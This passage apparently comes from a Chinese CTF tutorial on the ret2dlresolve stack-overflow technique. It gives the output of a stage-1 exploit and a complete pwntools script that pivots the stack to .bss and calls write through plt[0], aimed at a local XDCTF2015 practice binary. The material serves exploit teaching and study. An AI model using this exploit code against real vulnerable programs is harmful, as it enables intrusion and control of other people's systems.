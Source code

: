 结果如下

```shell
➜  ret2dlresolve git:(master) ✗ python stage1.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 120912
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive

```

#### stage 2

在这一阶段，我们将会利用dlresolve相关的知识来控制程序执行write函数。这里我们主要是利用plt[0]中的相关指令，即push linkmap以及跳转到dl_resolve函数中解析的指令。此外，我们还得单独提供一个write重定位项在plt表中的偏移。

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

# stack privot to bss segment
# new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
## padding
rop.raw('a' * offset)
## read 100 byte to base_stage
rop.read(0, base_stage, 100)
## stack privot, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

# write cmd="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
write_index = (elf.plt['write'] - plt0) / 16 - 1
write_index *= 8
rop.raw(plt0)
rop.raw(write_index)
# fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()

```